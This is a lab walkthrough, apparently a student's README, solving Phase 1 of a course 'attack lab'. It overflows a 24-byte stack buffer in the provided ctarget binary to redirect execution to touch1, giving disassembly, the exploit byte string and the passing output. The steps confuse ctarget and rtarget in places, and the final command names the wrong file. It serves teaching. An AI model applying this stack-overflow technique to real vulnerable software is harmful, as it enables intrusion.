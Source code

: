 Phase 1 is the easiest of the 5. What you are trying to do is overflow the stack with the exploit string and change the return address of 
getbuf function to the address of touch1 function. You are trying to call the function touch1.

run ctarget executable in gdb and set a breakpoint at getbuf

`b getbuf`

Then disasemble the getbuf function

`disas`

Since the buffer size is a run time constant, we need to look at the disasembled code to figure it out.

```
Dump of assembler code for function getbuf:
=> 0x0000000000401748 <+0>:	    sub    $0x18,%rsp
   0x000000000040174c <+4>:	    mov    %rsp,%rdi
   0x000000000040174f <+7>:	    callq  0x40198a <Gets>
   0x0000000000401754 <+12>:	mov    $0x1,%eax
   0x0000000000401759 <+17>:	add    $0x18,%rsp
   0x000000000040175d <+21>:	retq   
End of assembler dump.
```

If you look at `sub    $0x18,%rsp`, you can see that 24 (0x18) bytes of buffer is allocated for getbuf.

Now you know the buffer size and you need to input 24 bytes of padding followed by the return address of the touch1 address.

To find the address the touch1, you need to get the dissasembled code for ctarget executable.

`objdump -d rtarget > rtarget_dump.txt`

The above command will save the dissasembled code in file rtarget_dump.txt open that file and find the touch1 function.

I found touch1 inside rtarget which looked like

```
0000000000401760 <touch1>:
  401760:	48 83 ec 08          	sub    $0x8,%rsp
  401764:	c7 05 0e 31 20 00 01 	movl   $0x1,0x20310e(%rip)        # 60487c <vlevel>
  40176b:	00 00 00 
  40176e:	bf 78 30 40 00       	mov    $0x403078,%edi
  401773:	e8 98 f4 ff ff       	callq  400c10 <puts@plt>
  401778:	bf 01 00 00 00       	mov    $0x1,%edi
  40177d:	e8 17 05 00 00       	callq  401c99 <validate>
  401782:	bf 00 00 00 00       	mov    $0x0,%edi
  401787:	e8 24 f6 ff ff       	callq  400db0 <exit@plt>
```

So it's address is at `0x401760`

When you write the bytes, you need to consider the byte order. My system is a little-endian so the bytes go in reverse order.

Finally create a text file named phase1.txt which will look like below
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* the first 24 bytes are just padding */
60 17 40 00 00 00 00 00 /* address of touch1 */
```

Now you need to take this file and run it through the program hex2raw, which will generate raw exploit strings

`./hex2raw < phase1.txt > raw-phase1.txt`

Finally, you run the raw file

`./ctarget < raw-phase.txt`

You will get something like below if your solution is right.

```
Cookie: 0x434b4b70 //your cookie will be different
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```